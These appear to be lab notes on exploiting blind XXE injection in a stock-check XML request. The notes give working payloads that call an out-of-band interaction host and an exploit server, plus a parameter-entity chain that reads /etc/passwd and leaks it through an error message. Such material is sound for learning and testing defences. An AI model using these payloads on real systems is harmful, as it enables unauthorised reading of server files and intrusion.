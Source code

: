 Target Goal - Exploit blind XXE injection to to trigger an error message that displays the content of the /etc/passwd file.

Doesn't require BURP Collaborator

Analysis:
Regular Entity:
--------------

<!DOCTYPE test [<!ENTITY xxe SYSTEM "z332nczdwnr373gyvtgwiydz4qagy5.oastify.com">]>

Parameter Entity:
-----------------

<!DOCTYPE test [<!ENTITY % xxe SYSTEM "z332nczdwnr373gyvtgwiydz4qagy5.oastify.com"> %xxe;]>

Exfiltration of Data:
---------------------

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY % xxe SYSTEM "https://exploit-0a36000204174338c4c637de0106008f.exploit-server.net/exploit"> %xxe;]>

<stockCheck>
	<productId>
	1
	</productId>
	<storeId>
	1
	</storeId>
</stockCheck>
```